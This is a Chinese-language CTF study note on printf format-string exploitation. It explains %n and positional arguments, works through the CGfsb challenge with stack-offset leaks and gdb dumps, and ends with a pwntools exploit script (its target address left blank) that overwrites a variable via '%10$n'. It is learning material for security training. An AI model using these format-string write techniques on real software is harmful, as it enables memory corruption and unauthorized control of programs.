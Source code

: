 
%85c%7$n ，作用是将85写入栈内第7个参数所指向的地址。

在 printf 中，使用 `*<a_number_of_chars>%<number>$n*` 就可以将相应的第 `*<number>*` 个参数的位置写为 % 前输出的字符数量

如本题先用 %85c 输出了85个字符，再用 %7$n 将第七个参数的位置写成了85


#### $的作用

Linux下, x$指栈第x个参数的地址, 下面2$指第2个地址, $1指第一个地址. 即输出2, 3
```c
    int a = 3, b = 2;
    printf("%2$d %1$d", a, b);
```

#### 示例 CGfsb
通常2次输入

    1.1111
    2.输入 aaaa-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x-%08x
    aaaa-ffffd22e-f7fb4580-00000001-00000000-00000001-f7ffd940-31310001-000a3131-00000000-61616161-3830252d-30252d78
    ***1-*******2-*******3-*******4-*******5-*******6-*******7-*******8-*******9-******10-*'1111'*

偏移是10, 拖动调试。第二次printf处下断点。 

    payload = flat(p32(0x0804A068), 'a'*4 ,'%10$n')
    send(payload)后 

x/16wx $esp # 查看栈情况

    fff2a488 fff2a47e f7f47580 00000001 00000000 00000001 f7f90940 61610001 000a6161 00000000 0804a068 61616161
    ******01 ******02 ******03 ******04 ******05 ******06 ******07 ******08 ******09 ******10 ******11 ***aaaa*


exp:

```python
from pwn import *
context.log_level = 'debug'
conn = process('./e41a0f684d0e497f87bb309f91737e4d')
# conn = remote("220.249.52.133",56225)
pwnme = 
payload1 = 'aaaa'
payload2 = flat(p32(pwnme), 'a'*4 ,'%10$n')  #pwnme地址占4个字节，所以后面需要打印4个a
conn.recvuntil('please tell me your name:')
conn.sendline(payload1)
# gdb.attach(conn)
conn.recvuntil('leave your message please:') 
conn.sendline(payload2)
conn.interactive()
print(conn.recvall())
```
### PLT & GLT
